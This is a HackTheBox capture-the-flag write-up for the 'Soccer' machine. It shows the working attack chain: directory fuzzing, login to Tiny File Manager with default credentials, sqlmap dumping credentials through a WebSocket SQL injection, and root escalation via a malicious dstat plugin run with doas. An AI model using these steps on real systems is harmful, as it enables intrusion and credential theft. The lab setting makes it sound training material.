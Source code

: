 ## [Soccer](https://app.hackthebox.com/machines/Soccer) - 11/04/2023 - HackTheBox write-up

### User flag

#### Discovery

First thing, `nmap`:
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9091/tcp open  xmltec-xmlmail
```

The webpage is pretty empty so we can't find anything interesting. I try fuzzing with `wfuzz` with different wordlists.

I finally find some something with the following wordlist from `dirbuster`:
```bash
$ wfuzz -c -z file,directory-list-2.3-small.txt --hc 404 http://soccer.htb/FUZZ
[...]
000008447:   301        7 L      12 W       178 Ch      "tiny"
```

This link redirect us to a connection page for the `Tiny File Manager` a file manager written in PHP. On the docs we find the default credentials
([here](https://github.com/prasathmani/tinyfilemanager/wiki/Security-and-User-Management)) :
```
admin/admin@123
user/12345
```

Both of the accounts are available, the creds were not modified. This file manager allows us to upload a file without restriction, so we can upload a reverse shell.

#### Search for vulnerability

With the reverse shell, I try to execute `linpeas.sh` who gives me some indications. It says me that the server is probably vulnerable to [CVE-2021-3560](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3560),
I try a POC I found on Internet but it doesn't work. Trying to elevate my privileges from user `www-data` to
`player` seems difficult.

Finally I found in `nginx` configuration another site on a different virtual host.

#### Discovery

On this site we have a login and a sign up page. After creating an account and sign in, we can find a page that use a WebSocket to find information about matchs tickets.

After some tries we can find that the WebSocket request is vulnerable to an Error-Based (or time-based) SQL injection.

#### Exploitation

To exploit this vulnerability we can use `sqlmap`. It doesn't support websockets by default so we need to use a HTTP server that will receive the request and send it to the WebSocket. We can use this script : [link](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html). And then we use it to dump the databases :
```bash
$ sqlmap -u "http://localhost:8081/?id=1" --dbs

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Now, we want to dump tables in `soccer_db` database :
```bash
$ sqlmap -u "http://localhost:8081/?id=1" -D soccer_db --tables

accounts
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

Finally, we want to see the lines in the `accounts` table :
```bash
$ sqlmap -u "http://localhost:8081/?id=1" -D soccer_db -T accounts --dump

Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

SQLMap find this by using a time-based SQLi but we could use an error-based SQLi since the page returns "Tickets Doesn't Exist" or "Ticket Exists" if the request return true or false.

With this user and password we can connect to the web application but it doesn't provide any additional information. To find the user flag we just need to use this username/password to connect to the server with SSH.

### Root flag

#### Search for vulnerability

When we are connected to the machine we can start by start a `linpeas` analysis to find vulnerabilities.

With it, we can find the script `dstat` that can be run as root with the `doas` command. This script can
dynamically load plugins, and in this plugin we can execute python code.

#### Exploitation

By looking at the script, we can see that `dstat` load plugins from different paths, including
`/usr/local/share/dstat/`. We have a write access to this directory so we can write the following plugin
(`dstat_myplugin.py`):
```python
import os

os.system('cat /root/root.txt')
```

And with the command :
```bash
doas -u root /usr/bin/dstat --myplugin
```
We get the root flag !
